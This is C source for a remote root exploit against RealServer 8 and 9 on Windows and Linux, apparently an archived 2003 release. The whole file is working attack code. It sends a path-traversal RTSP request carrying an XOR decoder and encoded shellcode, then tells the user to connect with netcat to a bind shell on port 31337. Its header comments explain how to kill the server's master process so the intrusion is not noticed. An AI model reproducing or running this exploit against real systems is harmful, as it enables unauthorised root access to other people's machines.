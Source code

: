 EXP
---

    /***************************************************************
    /* THCREALbad 0.4 - Wind0wZ & Linux remote root exploit
    /* Exploit by: Johnny Cyberpunk thehackerschoice
    /* THC PUBLIC SOURCE MATERIALS
    /*
    /* http://www.service.real.com/help/faq/security/rootexploit082203.html
    /*
    /* After successful exploitation of a Linux box just type in the following
    /* ps -ef | grep -i rmserver
    /* and then search for the first appearing master pid of rmserver and type
    /* kill -9 <master pid of rmserver>
    /* Otherwise the master process detects that the compromised thread isn't
    /* running in a stable state any longer and kicks u of the box.
    /* On Windows Realservers it doesn't matter, the connection keeps up.
    /*
    /* Also try the testing mode before exploitation of this bug, what OS is
    /* running on the remote site, to know what type of shellcode to use.
    /*
    /* Greetings go to Dave Aitel of Immunitysec who found that bug.
    /*
    /* compile with MS Visual C++ : cl THCREALbad.c
    /***************************************************************

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <winsock2.h>

    #define WINDOWS 0
    #define LINUX 1
    #define OSTESTMODE 2

    #pragma comment(lib, "ws2_32.lib")

    char ostestmode[] = "OPTIONS / RTSP/1.0\r\n\r\n";

    char attackbuffer1[] =
    "DESCRIBE /"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../"
    "../../../../../../../../../../../../../../../../../../../../";

    char attackbuffer2[] =
    ".smi RTSP/1.0\r\n\r\n";

    char decoder[] =
    "\xcc\xcc\x90\x8b\xfd\x83\xc7\x37\x33\xc9\xb2\x90\x66\x81\xc1"
    "\x38\x01\x8a\x1f\x32\xda\x88\x1f\x47\xe2\xf7";

    char linuxshell[] =
    "\x36\xc5\x55\x6d\xfa\x07\x7f\x6c\x8c\xe2\x55\x6f\x04\x6f\x07"
    "\x8c\xe4\xb5\x63\x34\xde\x46\xc8\x85\x6f\x15\x52\x55\x8c\xe4"
    "\xb5\x63\x46\xc8\x85\xb5\x63\xb6\x01\x8c\x41\x21\x01\xc8\x85"
    "\x36\xc5\x86\xc1\x09\x55\x55\xb5\x63\x46\xc8\x85\x8c\xc6\x34"
    "\xcc\xb4\x06\x34\xc5\xb5\x3a\x4c\xc8\x85\x44\xe7\xf3\x34\xc5"
    "\x55\x6d\x2a\x2a\x76\x6d\x6d\x2a\x67\x6c\x6b\x8c\xe6\x55\x56"
    "\x8c\xe4\x9c\xb5\x0e\xc8\x85";

    char w32shell[] =
    "\x7b\xb3\xea\xf9\x92\x95\xfc\xc9\x68\x8d\x0c\x4e\x1c\x41\xdc"
    "\xe0\x44\x93\x60\xb7\xb0\xb0\xa0\x98\xc7\xc3\xa2\xcf\xa3\xa2"
    "\xbe\xd4\xdc\xdc\x91\x7b\x95\x78\x69\x6f\x6f\x6f\xcd\x13\x7d"
    "\xba\xfa\xa0\xc9\xf4\x1b\x91\x1b\xd0\x9c\x1b\xe0\x8c\x3d\x1b"
    "\xe8\x98\x1d\xcf\xac\x1b\x8b\x91\x6b\x1b\xcb\xe8\x91\x6b\x1b"
    "\xdb\x8c\x91\x69\x1b\xc3\xb4\x91\x6a\xc3\xc1\xc2\x1b\xcb\xb0"
    "\x91\x6b\xa1\x59\xd1\xa1\x50\x09\x1b\xa4\x1b\x91\x6e\x3c\xa1"
    "\x52\x41\x72\x14\x50\xe5\x67\x9f\x26\xd5\x95\x1d\xd4\xd5\x94"
    "\xf6\xa9\x80\xe5\x71\xf6\xa1\x80\xca\xc8\xce\xc6\xc0\xc2\xbb"
    "\xde\x80\xd1\x9f\x27\x9c\xda\x1b\x94\x18\x91\x68\x9f\x26\xdd"
    "\x95\x19\xd4\x1d\x48\x6e\xdd\x95\xe5\x2e\x6e\xdd\x94\xe4\xb1"
    "\x6e\xdd\xb2\x1d\xcd\x88\xc3\x6f\x40\x19\x57\xfa\x94\xc8\x18"
    "\xd5\x95\x10\xd5\xe7\x9a\x1d\xcd\xe4\x10\xfb\xb6\x84\x79\xe8"
    "\x6f\x6f\x6f\x19\x5e\xa1\x4b\xc3\xc3\xc3\xc3\xc6\xd6\xc6\x6f"
    "\x40\x07\xc5\xc8\xf6\x19\xa0\xfa\x80\xc5\xc7\x6f\xc5\x44\xde"
    "\xc6\xc7\x6f\xc5\x5c\xc3\xc5\xc7\x6f\xc5\x40\x07\x1d\xd5\x18"
    "\xc0\x6f\xc5\x74\xc5\xc5\x6f\xc5\x78\x1d\xd4\x95\x9c\x04\xc3"
    "\xf8\xbe\xf5\xe8\xf5\xf8\xcc\xf3\xfd\xf4\x04\xa1\x42\x1d\xd5"
    "\x5c\x04\xc7\xc7\xc7\xc3\xc3\x6e\x56\x91\x62\xc2\x04\x1d\xd5"
    "\xe8\xc0\x1d\xd5\x18\xc0\x21\x98\xc3\xc3\xfa\x80\x6e\x5e\xc2"
    "\xc3\xc3\xc3\xc5\x6f\xc5\x7c\xfa\x6f\x6f\xc5\x70";

    void usage();

    int main(int argc, char *argv[])
    {
    unsigned short realport=554;
    unsigned int sock,addr,os,rc;
    unsigned char *finalbuffer,*osbuf;
    struct sockaddr_in mytcp;
    struct hostent * hp;
    WSADATA wsaData;

    printf("\nTHCREALbad v0.4 - Wind0wZ & Linux remote root sploit for Realservers 8+9\n");
    printf("by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)\n");

    if(argc<3 || argc>3)
    usage();

    finalbuffer = malloc(2000);
    memset(finalbuffer,0,2000);

    strcpy(finalbuffer,attackbuffer1);
    os = (unsigned short)atoi(argv[2]);
    switch(os)
    {
    case WINDOWS:
    decoder[11]=0x90;
    break;
    case LINUX:
    decoder[11]=0x05;
    break;
    case OSTESTMODE:
    break;
    default:
    printf("\nillegal OS value!\n");
    exit(-1);
    }

    strcat(finalbuffer,decoder);

    if(os==WINDOWS)
    strcat(finalbuffer,w32shell);
    else
    strcat(finalbuffer,linuxshell);

    strcat(finalbuffer,attackbuffer2);

    if (WSAStartup(MAKEWORD(2,1),&wsaData) != 0)
    {
    printf("WSAStartup failed !\n");
    exit(-1);
    }

    hp = gethostbyname(argv[1]);

    if (!hp){
    addr = inet_addr(argv[1]);
    }
    if ((!hp) && (addr == INADDR_NONE) )
    {
    printf("Unable to resolve %s\n",argv[1]);
    exit(-1);
    }

    sock=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    if (!sock)
    {
    printf("socket() error...\n");
    exit(-1);
    }

    if (hp != NULL)
    memcpy(&(mytcp.sin_addr),hp->h_addr,hp->h_length);
    else
    mytcp.sin_addr.s_addr = addr;

    if (hp)
    mytcp.sin_family = hp->h_addrtype;
    else
    mytcp.sin_family = AF_INET;

    mytcp.sin_port=htons(realport);

    rc=connect(sock, (struct sockaddr *) &mytcp, sizeof (struct sockaddr_in));
    if(rc==0)
    {
    if(os==OSTESTMODE)
    {
    send(sock,ostestmode,sizeof(ostestmode),0);
    Sleep(1000);
    osbuf = malloc(2000);
    memset(osbuf,0,2000);
    recv(sock,osbuf,2000,0);
    if(*osbuf != '\0')
    for(; *osbuf != '\0';)
    {
    if((isascii(*osbuf) != 0) && (isprint(*osbuf) != 0))
    {
    if(*osbuf == '\x53' && *(osbuf + 1) == '\x65' && *(osbuf + 2) == '\x72' && *(osbuf + 3) ==
     '\x76' && *(osbuf + 4) == '\x65' && *(osbuf + 5) == '\x72')
    {
    osbuf += 7;
    printf("\nDetected OS: ");
    while(*osbuf != '\n')
    printf("%c", *osbuf++);
    printf("\n");
    break;
    }
    }
    osbuf++;
    }
    free(osbuf);
    }
    else
    {
    send(sock,finalbuffer,2000,0);
    printf("\nexploit send .... sleeping a while ....\n");
    Sleep(1000);
    printf("\nok ... now try to connect to port 31337 via netcat !\n");
    }
    }
    else
    printf("can't connect to realserver port!\n");

    shutdown(sock,1);
    closesocket(sock);
    free(finalbuffer);
    exit(0);
    }

    void usage()
    {
    unsigned int a;
    printf("\nUsage: <Host> <OS>\n");
    printf("0 = Wind0wZ\n");
    printf("1 = Linux\n");
    printf("2 = OS Test Mode\n");
    exit(0);
    }

    // milw0rm.com [2003-08-25]
